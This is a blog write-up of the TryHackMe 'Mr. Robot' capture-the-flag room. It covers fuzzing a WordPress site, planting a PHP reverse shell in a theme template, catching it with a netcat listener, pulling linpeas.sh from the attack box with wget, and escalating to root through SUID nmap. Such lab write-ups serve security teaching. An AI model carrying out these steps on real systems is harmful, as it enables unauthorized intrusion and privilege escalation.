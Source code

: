 ```yaml
---
layout: post
title: 'THM: Mr. Robot | Write-up'
date: '2024-11-12 05:59:33 +0000'
categories: [THM]
tags: [thm, web, fuzzing, privilege escalation, reverse shell, exploitation, enumeration]
comments: false
image: /post-imgs/mr-robot-writeup/mr-robot.jpg
---
```


## Overview

Mr Robot is a room on TryHackMe inspired by the <b><i>Mr. Robot</i></b> TV series. This room introduces players to the fundamentals of penetration testing through a sequence of tasks including, enumeration, exploitation, and privilege escalation.
<br><br>
In this room, we're required to find 3 flags. Let's get started! <br>

![haxor](/haxorman.gif)
<br>

## Enumeration

Let's start with a typical nmap scan. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-1.png)

Scanning the target with Nmap reveals three open TCP ports. On port 22 SSH is running, on port 80, an Apache web server, and an Apache web server with SSL on port 443. We can begin enumerating the subdomains of the web server on port 80 by fuzzing. I used ffuf. <br>
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target ip>/FUZZ -t 100`

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-2.png)

From the output, we see a lot of interesting directories. Since I fell into a rabbit hole, I will only be showing directories that are relevant in getting the flags.

/robots.txt gave us the first flag and a wordlist. (Reading through the wordlist, it seems to me that it was intended to be used for fuzzing directories, I didn't use it but you can try fuzzing using this wordlist.)

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-3.png)

You can download these files using wget. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-4.png)
<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-5.png)

Heading over to /license shows us a string encoded in base64. Decoding this will give us a credential to somewhere. (I censored it so you can try doing this process yourself).

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-6.png) 
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-7.png)

In /wp-login we found a wordpress login page. Let's try logging in using the credentials we found earlier.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-8.png)

We're in. :)

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-9.png)

## Exploitation

Head over to Appearance > Editor > Footer.php ( You can also try to find and test each template file and see which files will work for our reverse shell.)

If you're unsure which reverse shell you're going to use, download or copy [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just make sure to change the ip and port accordingly. Replace the code in the template file with the reverse shell and click update changes. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-10.png)

Now setup a netcat listener on your attack box. `nc -nvlp <port>`

Execute the reverse shell by accessing the template file in the url field.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-11.png)

Go back to your attack box.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-12.png)

We're in :)(2). Now we can do local enumeration and look for flags. <br>

Looking into the users of this system `cat /etc/passwd` we found a user with higher privilege.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-13.png)

We found the 2nd flag on /home/robot directory but unfortunately with can't access it using this account. We also found a credential for the user robot. (I didn't crack this hash instead I went straight to getting root.) 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-14.png)<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-15.png)

## Privilege Escalation

We can use [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/tag/20241101-6f46e855) to further enumerate the machine for possible privilege escalation attack vectors. <br>

Setup a python server hosting the directory containing linpeas.sh. 
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-16.png)

On the target machine, download the linpeas.sh file into the /tmp directory using wget. <br> `wget http://<attack-box-ip>/linpeas.sh` <br>
Give the file executable permissions and run it. <br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-17.png)

Looking through the linpeas output, we found some interesting binaries with SUID bit set that has root permissions. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-18.png)

Alternatively, you can use the following command to look for binaries that can run commands as root.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-19.png)

Now, we will be focusing on the binary Nmap. Head over to [GTFOBins](https://gtfobins.github.io/) and search nmap. In the Shell section, we can see that Nmap versions 2.02 to 5.21 has an interactive mode.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-20.png)

Let's check the version of the nmap on the target machine.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-21.png)

It's still in range. We can now run the command above and see if we can get a root shell. In the Nmap interactive mode, you need to add an exclamation mark before the command.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-22.png){: height="100" width="200" }

We're in :)(3). Now, that we're root, we can now access the 2nd flag located in /home/robot and the 3rd flag in /root. The cd command isn't available in the interactive mode so we will be using the ls command and cat command to access the flag files. I won't be showing the flags to not spoil it for you. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-23.png){: height="100" width="200" }<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-24.png){: height="100" width="200" }<br>

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-werein.gif){: height="500" width="500" }
